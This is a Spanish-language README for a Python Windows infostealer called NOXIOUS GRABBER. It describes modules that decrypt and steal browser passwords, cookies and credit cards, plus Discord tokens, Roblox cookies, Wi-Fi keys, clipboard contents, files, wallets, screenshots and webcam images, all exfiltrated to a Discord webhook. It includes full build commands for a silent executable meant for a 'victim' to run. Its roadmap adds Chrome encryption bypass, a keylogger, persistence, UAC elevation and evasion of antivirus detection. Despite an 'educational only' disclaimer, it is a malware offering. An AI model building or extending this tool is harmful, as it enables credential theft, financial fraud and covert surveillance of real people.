


# NOXIOUS GRABBER

<p align="center">
  
  
  
  
</p>

<p align="center">
  <b>Stealer modular en Python con Builder GUI + payload silencioso vía Discord Webhook</b><br>
  <i>Solo para fines educativos y de auditoría autorizada</i>
</p>

---

### Vista Previa

<p align="center">
  
  
</p>

> **Nota:** Coloca tus capturas reales como `1.png` (Builder GUI - ventana 500x600 oscura con logo verde) y `2.png` (embed de Discord con System Info + archivos adjuntos ZIP) en la raíz del repo. Si no existen se verán como imagen rota - reemplázalas antes de publicar.

---

## Tabla de Contenido

- [¿Qué es?](#qué-es)
- [Qué Hace](#qué-hace)
- [Cómo Funciona](#cómo-funciona)
- [Estructura del Proyecto](#estructura-del-proyecto)
- [Requisitos](#requisitos)
- [Instalación y Uso](#instalación-y-uso)
- [Configuración](#configuración)
- [Qué NO Está Funcionando / Limitaciones](#qué-no-está-funcionando--limitaciones)
- [Roadmap](#roadmap)
- [Contribuir](#contribuir)
- [Aviso Legal](#aviso-legal)
- [Créditos](#créditos)

---

## Qué es

**NOXIOUS GRABBER** es un grabber/infostealer para Windows escrito en Python. Consta de dos piezas:

1.  **Builder (`builder.py`)** - GUI en Tkinter que inyecta tu Discord Webhook en `src/config.py` y compila un ejecutable único con PyInstaller (`--onefile --noconsole --noupx`).
2.  **Payload (`src/main.py` + módulos grabbers)** - Ejecutable silencioso que recolecta información del sistema y la exfiltra a Discord vía Webhook como embeds + archivos `*.txt` / ZIP.

> Proyecto limpiado: **todos los comentarios eliminados**, código pulido y validación PE (`pefile`) para evitar el error `WinError 193` / SmartScreen corrupto por UPX.

---

## Qué Hace

| Módulo | Archivo | Descripción |
|---|---|---|
| **Sistema** | `core_functions.py` + `system_extended.py` | Hostname, usuario, IP pública (`api.ipify.org`), geolocalización (`ip-api.com`), OS, CPU, RAM, disco, privilegios admin, GPU (`wmic`/`Get-CimInstance`), resolución, uptime, procesos, apps de inicio (registro `Run`). |
| **Navegadores** | `browser_grabber.py` | Chromium (Chrome, Edge, Brave, Opera, Opera GX, Vivaldi, Yandex) - extrae `Local State` -> master key DPAPI -> desencripta `Login Data` (AES-GCM `v10`/`v11` + fallback DPAPI), `Cookies` (incl. `Network/Cookies`), `History`, `Web Data` (Autofill, Tarjetas), `Bookmarks` JSON. Copia DBs a `%TEMP%` para evitar locks. |
| **Discord** | `discord_grabber.py` | Busca `leveldb` en `Discord`, `Discord Canary/PTB` y browsers. Extrae tokens con regex `dQw4w9WgXcQ:` y desencripta con `os_crypt.encrypted_key` (DPAPI + AES-GCM). |
| **Roblox** | `roblox_grabber.py` | Lee `%LOCALAPPDATA%\Roblox\LocalStorage\RobloxCookies.dat`, base64 + DPAPI, extrae `.ROBLOSECURITY`. |
| **WiFi** | `wifi_grabber.py` | `netsh wlan show profiles` + `key=clear` -> SSID : password. |
| **Clipboard** | `clipboard_grabber.py` | Triple fallback: `win32clipboard` -> `ctypes` (`OpenClipboard`/`GlobalLock` con `argtypes` tipados) -> `pyperclip`. Trunca a 2000 chars. |
| **Emails** | `email_grabber.py` | Regex sobre Autofill, usernames con `@`, cookies y opcional escaneo de `Desktop/Documents/Downloads` (`.txt/.log/.csv/.json`). |
| **Archivos** | `files_grabber.py` | Busca `Desktop`, `Documents`, `Downloads` hasta profundidad 4, extensiones `{txt,log,csv,json,db,sqlite,docx,pdf,kdbx,key,pem,ovpn}`, máx 30 archivos / 5MB / 2MB por archivo. Detecta wallets (Exodus, Electrum, Atomic, Coinomi, Binance) y copia `wallet.dat`. |
| **Screenshot** | `core_functions.py` | `pyautogui.screenshot()` -> `%TEMP%\screenshot.png` |
| **Webcam** | `core_functions.py` | Triple fallback: `cv2.VideoCapture(0/1, CAP_DSHOW)` (640x480) -> `avicap32` (`capCreateCaptureWindowA` + `WM_CAP_*`) -> `ffmpeg` dshow. Convierte BMP->PNG. |
| **Exfiltración** | `webhook_sender.py` | `requests.post` a `WEBHOOK_URL` con `username/avatar_url`. Embed principal con límites Discord (1024/field, 6000 total) + ZIP `NOXIOUS SQUAD_data.zip` si >=3 archivos, si no archivos sueltos (<7MB). También `cookies_netscape.txt`. |

**Flujo de datos del embed principal:**

```
System Information | Discord Tokens (n) | Roblox Cookie | Wi-Fi Networks (n)
Passwords (n) | Cookies (n) | Emails (n) | History (n) | Autofill (n) | Credit Cards (n)
+ previews (CC, Clipboard, Wallets, Startup Apps)
+ adjuntos: screenshot.png, webcam_0.png, ZIP con txt detallados
```

---

## Cómo Funciona

```
[ builder.py GUI ] --(1. escribe WEBHOOK_URL en src/config.py)--> [ src/config.py ]
        |
        +--(2. pip show pyinstaller || pip install)--------------> [ PyInstaller ]
        |
        +--(3. limpia src/build, src/dist, __pycache__)         |
        |
        +--(4. pyinstaller --onefile --noconsole --clean          |
                --noupx --hidden-import ... main.py) -----------> [ src/dist/NOXIOUS_Grabber.exe ]
        |                                                             |
        +--(5. pefile valida PE32+ x64, copia a /NOXIOUS_Grabber.exe  |
              + Unblock-File)                                         |
                                                                    v
                                                        [ Víctima ejecuta EXE ]
                                                                    |
                                              +---------------------+---------------------+
                                              |                     |                     |
                                        get_system_info      browser_grabber      discord_grabber ...
                                              |                     |                     |
                                              +---------------------+---------------------+
                                                                    |
                                                          webhook_sender.py
                                                                    |
                                                          POST https://discord.com/api/webhooks/...
                                                                    |
                                                          [ Tu Discord: Embed + ZIP + Media ]
```

**Detalles técnicos clave:**

*   **Desencriptado Chrome 80+**: `Local State` -> `encrypted_key` (base64, strip `DPAPI` prefijo 5 bytes) -> `CryptUnprotectData` -> AES-GCM (`nonce 12B`, `ciphertext`, `tag 16B`). Fallback a DPAPI directo para valores legacy.
*   **Copia atómica de DBs**: `shutil.copy2` a `temp_db_PID_HASH.db` para no bloquear Chrome/Edge mientras corren.
*   **Builder hardening**: `--noupx` evita corrupción PE por `upx 5.x (0xc0000005)`, `--clean --noconfirm`, regenera `spec` con `upx=False`, valida con `pefile` (`Machine 0x8664`, `Magic 0x20b`), `Unblock-File` para quitar `Zone.Identifier`.
*   **Límites Discord**: Si hay >=3 archivos de reporte, se comprimen en un solo ZIP para no hittear rate-limit / 8MB por archivo.

---

## Estructura del Proyecto

```
NOXIOUS GRABBER/
├── builder.py              # GUI builder (Tkinter, threading, pefile validation)
├── 1.png                   # Screenshot Builder (poner aquí)
├── 2.png                   # Screenshot Embed Discord (poner aquí)
├── README.md
└── src/
    ├── main.py             # Orquestador payload
    ├── config.py           # WEBHOOK_URL, WEBHOOK_NAME, WEBHOOK_AVATAR
    ├── core_functions.py   # Sistema, IP, screenshot, webcam (3 métodos)
    ├── browser_grabber.py  # Passwords, cookies, history, autofill, CC, bookmarks
    ├── discord_grabber.py  # Tokens Discord + browsers
    ├── roblox_grabber.py   # Roblox .ROBLOSECURITY
    ├── wifi_grabber.py     # netsh wlan
    ├── clipboard_grabber.py# win32clipboard / ctypes / pyperclip
    ├── email_grabber.py    # Regex emails
    ├── files_grabber.py    # Walk Desktop/Documents/Downloads + wallets
    ├── system_extended.py  # GPU, RAM, resolución, uptime, startup, recent
    ├── webhook_sender.py   # send_to_webhook / send_embed
    ├── NOXIOUS_Grabber.spec# PyInstaller spec (upx=False)
    ├── build/              # Workpath PyInstaller (generado)
    └── dist/               # EXE final (generado)
```

**Dependencias principales:** `requests`, `psutil`, `pyautogui`, `Pillow`, `pycryptodome`, `pywin32`, `cryptography`, `opencv-python`, `numpy`, `pefile` (solo builder).

---

## Requisitos

*   **Windows 10/11** (usa `win32crypt`, `netsh`, `avicap32`, `wmic`/`powershell`)
*   **Python 3.10+** (testeado en 3.11/3.12)
*   **PyInstaller** (`pip install pyinstaller`)
*   Webhook de Discord válido (`https://discord.com/api/webhooks/...`)

---

## Instalación y Uso

### 1. Clonar e instalar deps

```powershell
git clone https://github.com/tu-usuario/noxious-grabber.git
cd "NOXIOUS GRABBER"
pip install requests psutil pyautogui Pillow pycryptodome pywin32 cryptography opencv-python numpy pefile
pip install pyinstaller
```

### 2. Opción A - Builder GUI (recomendado)

```powershell
python builder.py
```

1.  Pega tu `WEBHOOK URL` (se oculta con `•`)
2.  (Opcional) `DISCORD USERNAME` para tracking
3.  Click **BUILD EXECUTABLE** -> espera `Compiling...` -> `Build complete!`
4.  Resultado: `NOXIOUS_Grabber.exe` en la raíz + en `src/dist/`

### 3. Opción B - Manual sin GUI

```powershell
# 1. Edita src/config.py
# WEBHOOK_URL = 'https://discord.com/api/webhooks/TU_ID/TU_TOKEN'

# 2. Compila
cd src
pyinstaller --onefile --noconsole --clean --noconfirm --noupx --name NOXIOUS_Grabber --hidden-import requests --hidden-import psutil --hidden-import PIL --hidden-import cryptography --hidden-import win32crypt --hidden-import Crypto --hidden-import Crypto.Cipher.AES --hidden-import browser_grabber --hidden-import email_grabber --hidden-import clipboard_grabber --hidden-import files_grabber --hidden-import system_extended --hidden-import cv2 --hidden-import numpy --collect-submodules Crypto --exclude-module matplotlib --exclude-module scipy --exclude-module PyQt5 --exclude-module tkinter main.py

# 3. El exe queda en src/dist/NOXIOUS_Grabber.exe
```

### 4. Probar payload (sin compilar)

```powershell
cd src
python main.py
# Debe imprimir "NOXIOS SYSTME | @nscsp12 - Processing..." y "Done. Check Discord."
# Revisa tu canal de Discord
```

---

## Configuración

`src/config.py:1`

```python
WEBHOOK_URL = 'https://discord.com/api/webhooks/1544906753521483866/...'
WEBHOOK_NAME = "NOXIOUS SQUAD"
WEBHOOK_AVATAR = "https://media1.giphy.com/media/5OPABBSgEmD48BCAwX/giphy.gif"
```

*   Cambia `WEBHOOK_URL` por tu webhook. El builder lo hace automáticamente.
*   `WEBHOOK_NAME` / `AVATAR` personalizan el bot en Discord.

---

## Qué NO Está Funcionando / Limitaciones

> Transparencia total - si vas a contribuir, empieza por aquí.

| Área | Estado | Detalle |
|---|---|---|
| **Chrome 127+ App-Bound Encryption** | ❌ Roto parcialmente | Desde mid-2024 Chrome usa `App-Bound` key protegida por `GoogleUpdate` service. Solo DPAPI ya no desencripta `Login Data` / `Cookies` en instalaciones nuevas. Necesita bypass con `com.google.update` elevation o dump de `Local State` con `app_bound_encrypted_key`. |
| **Discord tokens nuevos** | ⚠️ Inestable | Discord cambió LevelDB -> `큰` SQLite + `Encrypted Token v2`. Regex `dQw4w9WgXcQ:` sigue funcionando en PTB/Canary antiguos pero falla en Stable reciente (token fragmentado). |
| **Webcam en laptops modernas** | ⚠️ Fallo silencioso | `CAP_DSHOW` da frame negro si la cámara necesita 1-2s de warm-up o si privacy shutter / `Windows Settings > Camera > Let apps access` está OFF. `avicap32` es obsoleto en Win11. Retorna `None` y no envía adjunto. |
| **Screenshot headless / RDP** | ⚠️ Negro | `pyautogui` falla sin sesión gráfica activa o con `Secure Desktop` (UAC). |
| **Antivirus / Defender** | ❌ Detectado | Firma de `pycryptodome` + `win32crypt` + `netsh` dispara `Trojan:Win32/Wacatac` / `PWS:Win32`. Necesita obfuscation, signing y ` --uac-admin` no implementado. El EXE sin firmar activa SmartScreen. |
| **Roblox nueva ruta** | ⚠️ Inestable | En Roblox Player 2.6+ la ruta migró a `LocalStorage/appStorage.json` en algunos installs Microsoft Store. Solo se cubre `RobloxCookies.dat` legado. |
| **Wallets** | ⚠️ Solo detección | `steal_wallets()` solo lista rutas y copia si <5MB, no desencripta `wallet.dat` (necesita passphrase) ni extrae seed de extensiones (Metamask vault requiere `chrome.storage.local` decrypt). |
| **Opera GX con perfil cifrado** | ❌ No | Opera GX usa `master_key` distinto por perfil si `Opera GX Stable` tiene `Local State` secundario. |
| **Firefox** | ❌ No implementado | `BROWSERS` solo cubre Chromium. Firefox `logins.json` + `key4.db` no está soportado. |
| **Archivos >2MB** | ⏭️ Skip intencional | `files_grabber` ignora >2MB para no exceder 8MB Discord. Puede perder `.kdbx` grandes. |
| **Tracking webhook builder** | ⚫ Vacío | `TRACKING_WEBHOOK = ""` no envía telemetría. Si lo llenas, expone `platform.node()` y hora. Úsalo solo en lab. |
| **PE validación sin pefile** | ⚠️ Build pasa sin validar | Si `pefile` no está instalado, `compile_executable()` retorna `Validacion PE fallo` y aborta copia aunque el EXE sea válido. |
| **UPX corrupto residual** | ⚠️ Manual | Si tenías `C:\upx-*.exe` en PATH, PyInstaller lo sigue invocando aunque uses `--noupx` en versiones <6.0. Hay que borrarlo del PATH. |

**Errores conocidos al compilar:**

*   `WinError 193` / `No se puede ejecutar esta aplicación` -> causa: build previo con `upx=True` + cache. Solución ya aplicada: `shutil.rmtree(build/dist) + --noupx --clean`.
*   `Failed to update config.py` -> ejecuta `builder.py` desde la raíz, no desde `src/`.
*   `ModuleNotFoundError: win32crypt` -> instala `pywin32` y ejecuta `pywin32_postinstall.py -install`.

---

## Roadmap

*   [ ] Soporte Firefox (`logins.json` + `key4.db` NSS)
*   [ ] Bypass App-Bound Chrome 127+ (dump via `CryptUnprotectData` elevado)
*   [ ] Discord `SecureStorage` nuevo
*   [ ] Stealer de extensiones (Metamask, Phantom, Exodus extension)
*   [ ] Keylogger opcional modular
*   [ ] Persistencia y auto-elevación UAC (actualmente solo reporta `is_admin`)
*   [ ] Obfuscation build-time + icon changer
*   [ ] Panel web alternativo a Discord (evitar rate-limit)

---

## Contribuir

¡Contribuciones bienvenidas! Este repo es educativo - si encuentras un bug de los de arriba o quieres pulir más el código, abre PR.

### Cómo contribuir

1.  Fork el repo
2.  Crea rama `feat/tu-feature` o `fix/bug-xxx`
3.  Mantén el estilo: **sin comentarios**, imports arriba, funciones cortas, `try/except` silencioso para no crashear payload
4.  Testea en VM Windows limpia (no en tu host)
5.  `python -m py_compile src/*.py builder.py` debe pasar sin errores
6.  Abre PR con descripción clara + captura si es visual (actualiza `1.png`/`2.png` si cambias UI)

### Áreas donde más se necesita ayuda

*   Fix App-Bound Chrome
*   Soporte Firefox
*   Reducir detecciones Defender (sin incluir crypter malicioso, solo técnicas de ofuscación legítimas)
*   Tests en distintos Windows (10 22H2, 11 24H2)
*   Traducción README EN/ES

### Reportar bugs

Abre un Issue con: `OS`, `Python version`, `PyInstaller version`, `log completo` (stderr de builder), y `pasos para reproducir`. No pegues tu webhook real.

---

## Aviso Legal

> **SOLO FINES EDUCATIVOS Y DE AUDITORÍA AUTORIZADA**

Este código se publica para aprender cómo funciona un infostealer, cómo defenderte y cómo auditar tu propia infraestructura con consentimiento explícito. 

*   **NO** lo uses en sistemas sin autorización escrita del propietario. 
*   El uso no autorizado es ilegal y viola CFAA, GDPR y leyes locales. 
*   Los autores no se responsabilizan del mal uso. Al clonar/ejecutar aceptas que eres el único responsable.

Si eres principiante, úsalo solo en tu propia VM aislada sin conexión a red productiva.

---

## Créditos

*   Autor original: `@nscsp12` / `NOXIOUS SQUAD` / `project0xf dev team`
*   Limpieza, retoques y README: contribuidores del repo (ver `Contributors`)
*   Librerías: `pycryptodome`, `pywin32`, `psutil`, `opencv-python`, `PyInstaller`, `Pillow`

---

<p align="center">
  <sub>Si te sirvió, deja una ⭐ y considera contribuir con un fix para App-Bound Chrome.</sub>
</p>
